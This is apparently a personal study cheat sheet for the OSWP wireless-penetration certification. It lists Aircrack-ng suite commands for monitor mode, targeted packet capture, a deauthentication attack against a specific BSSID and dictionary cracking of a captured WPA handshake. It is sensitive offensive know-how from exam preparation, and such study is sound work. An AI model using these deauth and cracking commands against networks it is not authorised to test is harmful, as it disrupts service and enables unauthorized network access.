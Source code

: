 # OSWP

## Aircrack-ng 
### Packet sniffer, network detector, frame injection, cracks WEP and WPA-PSK 
```
airmon-ng check
airmon-ng check kill

sudo /usr/sbin/airmon-ng
airmon-ng start wlan0
airmon-ng stop wlan0
iw wlan0 info

```

## Airodump-ng 
### WEP, WPA/WPA2
#### Don't forget to specify interface
```
sudo airodump-ng wlan0mon -c 2
sudo airodump-ng -c 3 --bssid 34:08:04:09:3D:38 -w 1.cap
```
|CMD|DESC|
|-----|-----|
|-w|output filename| 
|--bsssid|specific BSSID|
|--essid|specific ESSID|
|-c|channel|
|-g|GPS|
|--ivs| Interval Vectors
|-R|Regular Expression|

## Aireplay-ng
### Generate wireless traffic, deauths, WEP
#### Set card to channel [3]
```
sudo airmon-ng start wlan0 3 
```
### Deauth
```
sudo aireplay-ng -0 10 -a 34:08:04:09:3D:38 wlan0mon
```
|CMD|DESC|
|-----|-----|
-0 |# deauths
-a|BSSID
-c|client MAC

## Aircrack-ng
### Cracking Hashes
```
aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap
```


##Useful Linux Commands
```
scp kali@192.168.10.94:/home/kali/1.cap-01.cap .
```
